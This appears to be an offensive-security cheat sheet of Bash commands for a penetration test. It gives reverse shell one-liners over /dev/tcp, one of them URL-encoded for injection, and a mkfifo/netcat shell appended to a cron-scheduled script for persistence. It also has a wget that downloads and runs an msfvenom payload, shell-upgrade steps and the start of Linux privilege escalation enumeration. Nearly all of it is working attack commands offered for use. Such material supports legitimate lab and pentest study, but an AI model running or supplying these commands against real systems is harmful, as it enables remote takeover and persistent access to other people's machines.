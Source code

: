 #Shell_Access #Remote_Access

Bash reverse shell one-liner
```bash
bash -i >& /dev/tcp/192.168.120.101/4444 0>&1
```

Bash reverse shell one-liner executed as command in Bash
```bash
bash -c "bash -i >& /dev/tcp/192.168.69.101/4444 0>&1"
```

URL encoded Bash TCP reverse shell one-liner
```bash
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.50.101%2F4444%200%3E%261%22
```

Adding a Reverse Shell One-Liner to a Cron Scheduled Script E.g., `hentai_video_backups.sh`
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.69.70 1234 >/tmp/f" >> hentai_video_backups.sh
```

Download `msfvenom` reverse shell payload and execute
```bash
wget http://192.168.50.102:80/shell-x64.elf && chmod +x shell-x64.elf && ./shell-x64.elf
```

# Upgrading Shell

#Full_Interactive_Shell 

Upgrade shell session within the current shell
```bash
script -qc /bin/bash /dev/null
```

# Enumeration and Privilege Escalation

#Linux_Enumeration #Linux_Privilege_Escalation

## Current User

Inspecting current user's `sudo` permissions
```bash
sudo -l
```

Inspecting file permissions and users ownership
```bash
ls -l /etc/passwd
```

Getting information about the current user
```bash
id
```
